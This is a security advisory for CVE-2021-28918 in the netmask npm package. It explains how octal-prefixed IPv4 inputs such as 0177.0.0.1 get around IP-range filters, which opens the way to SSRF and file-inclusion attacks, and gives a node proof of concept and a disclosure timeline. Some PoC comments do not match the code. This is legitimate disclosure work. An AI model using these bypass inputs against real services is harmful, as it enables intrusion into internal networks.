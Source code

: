 ### Title
netmask npm package - Improper Input Validation in netmask npm package v1.1.0 and below of octal literals results in indeterminate SSRF & RFI vulnerabilities.

### CVE ID
CVE-2021-28918

### CVSS Score
Pending

### Internal ID
SICK-2021-011
        
### Vendor
netmask project
        
### Product
netmask

### Product Versions
v1.1.0 and below

### Vulnerability Details

Improper input validation of octal strings in widely used netmask npm package v1.1.0 and below allows unautenticated remote attackers to perform indeterminate SSRF, RFI, and LFI attacks on many of the dependent packages. The netmask npm package incorrectly evaluates individual ipv4 octets that contain octal strings as left-stripped integers, leading to an inordinate attack surface on hundreds of thousands of projects that rely on netmask to filter or evaluate ipv4 block ranges, both inbound and outbound. For example, a remote unauthenticated attacker can request local resources using input data 0177.0.0.1 (127.0.0.1), which netmask evaluates as public IP 177.0.0.1. Contrastingly, a remote authenticated or unauthenticated attacker can input the data 0127.0.0.01 (87.0.0.1) as localhost, yet the input data is a public IP and potentially cause local and remote file inclusion (LFI/RFI). A remote authenticated or unauthenticated attacker can bypass packages that rely on netmask to filter IP address blocks to reach intranets, VPNs, containers, adjacent VPC instances, or LAN hosts using input data such as 012.0.0.1 (10.0.0.1), which netmask evaluates as 12.0.0.1 (public).

### Vendor Response
Fixed in version v2.0.0

### Proof of Concept


```bash
# cd /tmp
mkdir -p netmask_poc/node_modules
cd netmask_poc
npm i netmask@1.0.6

node <<'EOF'

var Netmask = require('netmask').Netmask

var block = new Netmask('31.0.0.0/8');
block.base;                     // 10.0.0.0
block.mask;                     // 255.240.0.0
block.bitmask;                  // 12
block.hostmask;                 // 0.15.255.255
block.broadcast;                // 10.15.255.255
block.size;                     // 1048576
block.first;                    // 10.0.0.1
block.last;                     // 10.15.255.254

console.log(block.contains('#######################'));

console.log(block.first);
console.log('thru');
console.log(block.last);

console.log('is 31.5.5.5 in that block?');
console.log(block.contains('31.5.5.5'));

console.log('is 031.5.5.5 (25.5.5.5) in that block?');
console.log(block.contains('031.5.5.5'));

console.log('is 31.5.5.5 (25.5.5.5) in that block?');
console.log(block.contains('31.5.5.5'));

console.log(block.contains('#######################'));

var block = new Netmask('127.0.0.0/8');

console.log(block.first);
console.log('thru');
console.log(block.last);

console.log('is 127.0.0.2 in that block?');
console.log(block.contains('127.0.0.2'));

console.log('is 0177.0.0.2 (127.0.0.2) in that block?');
console.log(block.contains('0177.0.0.2'));

console.log(block.contains('#######################'));

var block = new Netmask('255.0.0.1/8');

console.log(block.first);
console.log('thru');
console.log(block.last);


console.log('is 255.255.255.2 in that block?');
console.log(block.contains('255.255.255.2'));

console.log('is 0255.0.0.2 (173.0.0.2) in that block?');
console.log(block.contains('0255.0.0.2'));

console.log(block.contains('#######################'));

var block = new Netmask('10.0.0.1/8');

console.log(block.first);
console.log('thru');
console.log(block.last);

console.log('is 10.5.7.1 in that block?');
console.log(block.contains('10.5.7.1'));

console.log('is 10.0.0.255 in that block?');
console.log(block.contains('012.0.0.255'));

console.log(block.contains('#######################'));

var block = new Netmask('1.0.0.1/8');

console.log(block.first);
console.log('thru');
console.log(block.last);

console.log('is 1.2.3.4 in that block?');
console.log(block.contains('1.2.3.4'));

console.log('is 01.2.3.4 in that block?');
console.log(block.contains('01.2.3.4'));

console.log(block.contains('#######################'));

EOF
```

#### Disclosure Timeline
* **2021-03-16** - Researchers discover vulnerability
* **2021-03-17** - Vendor notified
* **2021-03-17** - CVE requested
* **2021-03-19** - CVE assigned CVE-2021-28918
* **2021-03-28** - Vulnerability published

### Links

[https://github.com/sickcodes/security/blob/master/advisories/SICK-2021-011.md](https://github.com/sickcodes/security/blob/master/advisories/SICK-2021-011.md)

[https://sick.codes/universal-netmask-npm-package-used-by-270000-projects-vulnerable-to-octal-input-data-server-side-request-forgery-remote-file-inclusion-local-file-inclusion-and-more-cve-2021-28918](https://sick.codes/universal-netmask-npm-package-used-by-270000-projects-vulnerable-to-octal-input-data-server-side-request-forgery-remote-file-inclusion-local-file-inclusion-and-more-cve-2021-28918)

[https://sick.codes/sick-2021-011](https://sick.codes/sick-2021-011)

[https://www.npmjs.com/package/netmask](https://www.npmjs.com/package/netmask)

[https://github.com/rs/node-netmask](https://github.com/rs/node-netmask)

### Researchers

Victor Viale: [https://github.com/koroeskohr](https://github.com/koroeskohr) || [https://twitter.com/koroeskohr](https://twitter.com/koroeskohr)

Sick Codes: [https://github.com/sickcodes](https://github.com/sickcodes) || [https://twitter.com/sickcodes](https://twitter.com/sickcodes)

Kelly: [https://github.com/kaoudis](https://github.com/kaoudis) || [https://twitter.com/kaoudis](https://twitter.com/kaoudis)

John Jackson [https://www.twitter.com/johnjhacking](https://www.twitter.com/johnjhacking)

Nick Sahler: [https://github.com/nicksahler](https://github.com/nicksahler) || [https://twitter.com/tensor_bodega](https://twitter.com/tensor_bodega) 

RS [https://github.com/rs](https://github.com/rs) || [https://twitter.com/rs](https://twitter.com/rs)

#### CVE Links

[https://sick.codes/sick-2021-011](https://sick.codes/sick-2021-011)

[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-28918](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-28918)

[https://nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-28918](https://nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-28918)

